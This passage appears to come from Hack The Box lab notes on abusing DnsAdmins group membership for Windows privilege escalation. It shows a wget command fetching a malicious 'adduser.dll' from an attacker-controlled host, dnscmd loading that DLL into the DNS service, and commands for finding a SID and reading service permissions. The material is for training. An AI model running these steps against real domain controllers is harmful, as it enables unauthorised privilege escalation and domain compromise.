 <mark style="color:green;">**Downloading File to Target**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```
{% endcode %}

Let's first see what happens if we use the `dnscmd` utility to load a custom DLL with a non-privileged user.

<mark style="color:green;">**Loading DLL as Non-Privileged User**</mark>

{% code fullWidth="true" %}
```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```
{% endcode %}

As expected, attempting to execute this command as a normal user isn't successful. Only members of the `DnsAdmins` group are permitted to do this.

<mark style="color:green;">**Loading DLL as Member of DnsAdmins**</mark>

```powershell-session
C:\htb> Get-ADGroupMember -Identity DnsAdmins
```

<mark style="color:green;">**Loading Custom DLL**</mark>

```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

<mark style="color:green;">**Finding User's SID**</mark>

```cmd-session
C:\htb> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

<mark style="color:green;">**Checking Permissions on DNS Service**</mark>

Once we have the user's SID, we can use the `sc` command to check permissions on the service. Per this [article](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/), we can see that our user has `RPWP` permissions which translate to `SERVICE_START` and `SERVICE_STOP`, respectively.

{% code fullWidth="true" %}
```cmd-session
C:\htb> sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```
{% endcode %}
